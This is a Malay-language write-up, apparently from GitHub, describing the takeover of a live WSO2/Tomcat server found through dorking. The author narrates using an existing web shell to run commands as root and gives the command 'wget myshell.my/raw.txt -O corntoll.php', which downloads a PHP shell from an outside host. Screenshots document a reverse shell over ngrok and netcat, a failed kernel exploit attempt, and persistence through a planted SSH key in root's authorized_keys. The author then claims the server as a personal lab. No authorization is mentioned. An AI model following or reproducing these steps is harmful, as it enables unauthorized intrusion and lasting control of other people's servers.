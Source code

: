 # Write-Up [WSO2 Management Exploit]

Assalamualaikum, so harini nak buat writeup dari PoC [WSO2 Management] kepada SSH(berserta Privilege Escalation).

Disini saya telah berjaya meng-eksploitasi satu urls dengan menggunakan teknik dorking.

![Screenshot_251](https://user-images.githubusercontent.com/21289340/233838651-b3cd945d-9286-4ab6-b4fe-d4181f012cfc.png)

Setelah saya berjaya meng-eksploitasi urls tersebut, saya terus mencuba mendapatkan user dengan menggunakan `whoami`.
Disini mungkin agak sedikit "LUCKY" apabila output yang tampil adalah "root".

![Screenshot_4](https://user-images.githubusercontent.com/21289340/233838875-c2a7ec20-1738-467d-9932-51794a527bfd.png)

Seperti biasa, saya akan mencuba untuk melakukan pencarian untuk mencari aplikasi yang tersedia seperti php, python, apache2, nginx, perl, wget dan curl.
Sebelumnya php dan apache2 tidak tersedia di dalam server. Kemudian saya cuba untuk menginstall secara direct melalui basic unix command disebabkan privilege yang telah ada iaitu 'root', di bawah ini adalah output ditampilkan setelah saya berjaya menginstall package tersebut.

![Screenshot_253](https://user-images.githubusercontent.com/21289340/233839227-11762819-8976-4c4d-bc08-20a7ba9787bb.png)
![Screenshot_243](https://user-images.githubusercontent.com/21289340/233839297-0b89acab-46b6-4613-87ae-6b9de6d89f8f.png)

Seterusnya, saya ingin membuat back-connect, kerana shell yang tersedia iaitu "cmd.jsp" tidak memuaskan dan mungkin jalan kerja terlalu banyak.
Lalu saya cuba memanggil php shell dengan menggunakan 'wget myshell.my/raw.txt -O corntoll.php'.
Dibawah ini adalah tampilan setelah saya berjaya memanggil file php tersebut.

![Screenshot_21](https://user-images.githubusercontent.com/21289340/233839663-58ee9510-a961-4cc2-bc8c-c2a0578e0724.png)

Dan dibawah ini adalah tampilan setelah saya berjaya mengexecute corntall.php

![Screenshot_254](https://user-images.githubusercontent.com/21289340/233839590-01632a7d-dc0e-4bbd-a97d-d201aaae1a31.png)

Seterusnya, saya terus membuat back-connect/reverse php shell tersebut.

![Screenshot_9](https://user-images.githubusercontent.com/21289340/233839749-e4bccb03-9c77-4ac1-b215-eaf3cec304da.png)

Kemudian, saya listen seperti biasa menggunakan ngrok dan netcat.

![Screenshot_8](https://user-images.githubusercontent.com/21289340/233839800-99cfcaa3-3708-4872-b962-15c25c72f0f4.png)

Lalu, back-connect/reverse telah berjaya dilakukan.

![Screenshot_255](https://user-images.githubusercontent.com/21289340/233839892-6b79cd2f-5895-4893-808f-fcd58adbc4bc.png)

Disini saya memanggil fully interactive TTYs menggunakan Python3. Seterusnya, saya cuba mendapatkan user.

![Screenshot_11](https://user-images.githubusercontent.com/21289340/233840096-c8307a44-ab63-471e-a823-a2ff851d9f58.png)

Saya cuba untuk mendapatkan akses 'ROOT' daripada back-connect dengan cara mengeksploitasi CVE-2017-16995.

![Screenshot_22](https://user-images.githubusercontent.com/21289340/233840258-926a6fc8-2e39-4bc6-b3f3-35aa04bf1623.png)
![Screenshot_259](https://user-images.githubusercontent.com/21289340/233841650-b66761ff-bd93-4c88-8185-812c336bf98e.png)

Tetapi ianya gagal setelah saya compile dan cuba untuk meng-eksploitasi kernel tersebut. Mungkin disebabkan version kernel server dan CVE agak berbeza tiga angka?

![Screenshot_12](https://user-images.githubusercontent.com/21289340/233840359-1d9558f7-faa7-4a2b-9205-5ea091398a61.png)

Disini saya juga telah mencuba membuat 'chown' dan 'chmod +x' untuk memastikan CVE tersebut mendapatkan akses permission yang lengkap namun gagal.

![Screenshot_13](https://user-images.githubusercontent.com/21289340/233840470-60d57594-b262-499a-9daf-4b53210b1082.png)
![Screenshot_14](https://user-images.githubusercontent.com/21289340/233840477-807c9c8c-6342-4765-a23d-5b8df941dff3.png)

Jadi, saya cuba untuk menggunakan cara lain dimana saya telah mendapat idea untuk menggunakan SSH. Disini saya membuat semakan sama ada aplikasi SSH sedang berjalan ataupun tidak.

![Screenshot_247](https://user-images.githubusercontent.com/21289340/233840715-20e3c028-11ec-4d67-a65f-63c7a5e546b2.png)
![Screenshot_249](https://user-images.githubusercontent.com/21289340/233840646-9005c029-ff75-499b-a8ad-1b72e722f25a.png)

Ianya menunjukkan bahawa SSH tidak active, jadi saya mengaktifkan aplikasi SSH tersebut seperti yang dibawah.

![Screenshot_256](https://user-images.githubusercontent.com/21289340/233840612-69994d7e-1524-4b33-bdbd-02bb88ceef58.png)

Setelah servis SSH aktif, saya terus cuba login tapi gagal dengan error yang ditampilkan dibawah.

![Screenshot_257](https://user-images.githubusercontent.com/21289340/233840786-fc5f1aa2-d87f-46e2-abfd-0d84b9e32757.png)

Jadi, saya cuba untuk generate ssh-key sendiri dan menambah public key tersebut ke file '/root/.ssh/authorized_keys' seperti yang ditampilkan. 

![Screenshot_16](https://user-images.githubusercontent.com/21289340/233840923-3a8981d8-6b47-441f-b3a2-934018ec87d2.png)

Lalu, saya terus cuba untuk login daripada console Powershell.

![Screenshot_17](https://user-images.githubusercontent.com/21289340/233840965-ef26b465-0493-47d0-90eb-e3a0cd466a76.png)

Apabila melihat login SSH telah berjaya, saya terus melakukan semakan user menggunakan 'whoami'.

![Screenshot_18](https://user-images.githubusercontent.com/21289340/233841040-f98a4bd4-a159-462b-bc56-2841b967ef4c.png)

"BOOM!" root. Bukan sahaja akses root, malah saya juga telah mendapatkan akses direct kepada SSH.
Sekarang ianya telah menjadi LABORATORY peribadi saya. Server itu juga telah dipointing kepada sub-domain saya sendiri.

![Screenshot_260](https://user-images.githubusercontent.com/21289340/233841801-2a15d8f2-9145-4da7-9df6-91d32e67b6b3.png)
![Screenshot_19](https://user-images.githubusercontent.com/21289340/233841860-723b822d-6d1a-4832-ab1a-7fe7f367c295.png)

Setelah melakukan penyiasatan dengan lebih lanjut, saya mendapati bahawa server tersebut menggunakan Tomcat Apache, dimana ianya menggunakan Java.
Disitu, 'cmd.jsp' telah di eksploitasi untuk mendapatkan akses SSH root. 

BIG THANKS TO PARI MALAM.
